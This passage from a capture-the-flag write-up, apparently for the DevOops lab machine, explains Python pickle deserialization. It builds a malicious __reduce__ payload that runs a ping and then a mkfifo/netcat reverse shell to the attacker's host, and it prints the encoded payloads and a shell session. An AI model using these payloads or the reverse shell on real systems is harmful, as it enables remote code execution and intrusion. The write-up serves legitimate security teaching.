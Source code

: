     POST RECEIVED: test
    

#### Exploitation

Pickle is python’s serialization library, and as is true with most
serialization / deserialization methods, it’s extremely risky to use with user
controlled input. There’s another example of pickle exploitation in [my Canape
writeup](/2018/09/15/htb-canape.html).

Serialization allows a programmer to take an object within a program and save
it as a text string, so that that string can be loaded later and/or on a
different host and the full object will be available. When python runs the
deserialization functions (`load` or `loads`) and gets an object, it will
always attempt to run that object’s `__reduce__` method, which is used to
clean up things that don’t serialize well, such as a file handle.

We can take advantage of that to get RCE. First, build the malicious string to
submit:

    
    
    >>> import os
    >>> class Exploit(object):
    ...     def __init__(self, cmd):
    ...         self.cmd = cmd
    ...     def __reduce__(self):
    ...         return (os.system, (self.cmd,))
    
    >>> pickle.dumps(Exploit('ping -c 1 10.10.14.3'))
    "cposix\nsystem\np1\n(S'ping -c 1 10.10.14.3'\np2\ntRp3\n."
    >>> base64.urlsafe_b64encode(pickle.dumps(Exploit('ping -c 1 10.10.14.3')))
    'Y3Bvc2l4CnN5c3RlbQpwMQooUydwaW5nIC1jIDEgMTAuMTAuMTQuMycKcDIKdFJwMwou'
    

Now, post that string and see what happens:

![](https://0xdfimages.gitlab.io/img/devoops-pickle-ping.gif)

There’s a 500 error from the server, but also pings at `tcpdump`. So that’s
RCE.

Now get a shell. Just re-run the python code with a new command:

    
    
    >>> base64.urlsafe_b64encode(pickle.dumps(Exploit('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 443 >/tmp/f')))
    'Y3Bvc2l4CnN5c3RlbQpwMQooUydybSAvdG1wL2Y7bWtmaWZvIC90bXAvZjtjYXQgL3RtcC9mfC9iaW4vc2ggLWkgMj4mMXxuYyAxMC4xMC4xNC4zIDQ0MyA-L3RtcC9mJwpwMgp0UnAzCi4='
    

Post that string, and:

    
    
    root@kali# nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.3] from (UNKNOWN) [10.10.10.91] 43402
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=1002(roosa) gid=1002(roosa) groups=1002(roosa),4(adm),27(sudo)
    